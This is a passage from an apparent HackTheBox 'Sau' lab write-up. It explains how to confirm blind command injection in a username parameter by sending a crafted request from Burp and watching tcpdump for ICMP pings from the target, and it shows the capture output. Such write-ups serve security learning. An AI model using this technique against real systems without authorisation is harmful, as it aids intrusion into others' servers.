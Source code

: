 ![ping-poc](/assets/images/machines/htb/sau/ping-poc.png)

To get this to work you will need to url-encode the parameter for username and then start __tcpdump__ on your machine. The command I used was __sudo tcpdump -i tun0__

Now send the request from Burp and watch tcpdump for ICMP traffic.

I was able to see ping requests made from the target machine! That means we can inject code >:)

```bash
h0ax@h0ax:~/sau$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:48:49.380641 IP sau.htb > h0ax: ICMP echo request, id 3, seq 876, length 64
01:48:49.380667 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 876, length 64
01:48:50.379952 IP sau.htb > h0ax: ICMP echo request, id 3, seq 877, length 64
01:48:50.379976 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 877, length 64
01:48:51.381688 IP sau.htb > h0ax: ICMP echo request, id 3, seq 878, length 64
01:48:51.381713 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 878, length 64
01:48:52.382594 IP sau.htb > h0ax: ICMP echo request, id 3, seq 879, length 64
01:48:52.382616 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 879, length 64
01:48:53.379058 IP h0ax.42672 > 32.121.122.34.bc.googleusercontent.com.http: Flags [S], seq 821141152, win 64240, options [mss 1460,sackOK,TS val 1947136273 ecr 0,nop,wscale 7], length 0
01:48:53.385371 IP sau.htb > h0ax: ICMP echo request, id 3, seq 880, length 64
01:48:53.385396 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 880, length 64
01:48:54.386395 IP sau.htb > h0ax: ICMP echo request, id 3, seq 881, length 64
01:48:54.386420 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 881, length 64
01:48:55.388481 IP sau.htb > h0ax: ICMP echo request, id 3, seq 882, length 64
01:48:55.388505 IP h0ax > sau.htb: ICMP echo reply, id 3, seq 882, length 64
^C
15 packets captured
15 packets received by filter
0 packets dropped by kernel
```
